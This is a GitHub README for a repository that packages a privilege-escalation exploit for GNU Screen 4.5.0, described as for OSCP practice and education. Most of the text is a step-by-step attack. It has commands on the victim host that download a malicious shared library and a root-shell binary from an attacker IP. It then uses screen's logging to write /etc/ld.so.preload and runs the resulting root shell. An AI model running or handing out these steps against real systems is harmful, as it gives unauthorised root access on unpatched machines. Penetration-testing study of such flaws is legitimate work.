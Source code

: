 # screen v4.5.0 Privilege Escalation
`Updated GNU Screen 4.5.0 Exploit:` This repository hosts an enhanced exploit for `GNU Screen 4.5.0` that is related to OSCP Machine. It includes modifications for compatibility with the latest binary configurations in Kali Linux. Intended for educational and research purposes to demonstrate privilege escalation.
- The orginal lib <a href="https://github.com/XiphosResearch/exploits/blob/master/screen2root/README.md"> github-lib</a> and <a href="https://www.exploit-db.com/exploits/41154"> exploit-db</a> 
- The orginal Report <a href="https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html">Bug Report</a>

<p align="center"><img src="https://github.com/YasserREED/screen-v4.5.0-priv-escalate/blob/main/img/Front-img.png"></p>

![](https://img.shields.io/badge/Version-%20v1.0.0-blue)
![](https://img.shields.io/badge/Twitter-%20YasserREED-blue)
![](https://img.shields.io/badge/YouTube-%20YasserRED-red)



## Step - Step exploit

#### Setup
```bash
sudo git clone https://github.com/YasserREED/screen-v4.5.0-priv-escalate.git
cd screen-v4.5.0-priv-escalate
sudo chmod +x exploit.sh
./exploit.sh
```

#### Transfer the Files
```console
victom@Machine$ cd /tmp
victom@Machine$ wget 192.168.45.x/libhax.so
victom@Machine$ wget 192.168.45.x/rootshell
```
#### Give the permissions
```console
victom@Machine$ chmod +x libhax.so
victom@Machine$ chmod +x rootshell
```
#### Smash to root
```bash
cd /etc || exit 1
umask 000
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

<br>

---

<p align="center"> Hack The Planet! :heart_on_fire: </p>
